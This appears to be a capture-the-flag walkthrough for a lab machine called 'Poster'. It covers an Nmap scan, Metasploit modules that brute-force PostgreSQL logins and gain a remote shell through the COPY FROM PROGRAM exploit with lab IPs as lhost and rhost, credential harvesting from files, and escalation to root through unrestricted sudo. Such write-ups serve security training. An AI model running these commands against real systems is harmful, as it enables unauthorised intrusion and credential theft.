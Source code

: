 # Poster

### Poster
Nmap scan shows ports 22,80 and 5432 open. 5432 is a remove postgreSQL database.
    
    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
    |   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
    |_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
    80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Poster CMS
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.23
    | ssl-cert: Subject: commonName=ubuntu
    | Not valid before: 2020-07-29T00:54:25
    |_Not valid after:  2030-07-27T00:54:25
    |_ssl-date: TLS randomness does not represent time

Following the hints provided in the task, lets use metasploit to enumerate login credentials. Open msfconsole and run the following commands (adapt the RHOST IP addres to your instance):

    use auxiliary/scanner/postgres/postgres_login
    run
![image](https://github.com/user-attachments/assets/0ba4853a-8555-4978-98ac-22e41afa0df0)<br />
Next, let's use another module to exploit this service and get a remote shell: 

    use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    set lhost 10.11.85.53
    set rhost 10.10.207.24
    set password password
    run

Now, inside `dark`'s home directory there are his credentials: <br />
![image](https://github.com/user-attachments/assets/7686fdd2-d849-41e0-a709-2cf008436fe3)<br />
Inside `/var/www/html` I found a set of credentials: <br />
![image](https://github.com/user-attachments/assets/564c3e4f-456b-4f3a-a816-99f2cd2e7e38)<br />
I use it to log into `alison`'s account and get user.txt. Now to become root, there's no need to do anything. `alison` can run any command as root. 
![image](https://github.com/user-attachments/assets/7110ace4-e1d6-40ff-902b-03a52f149a1a)<br >
So just run `sudo su` and become root!

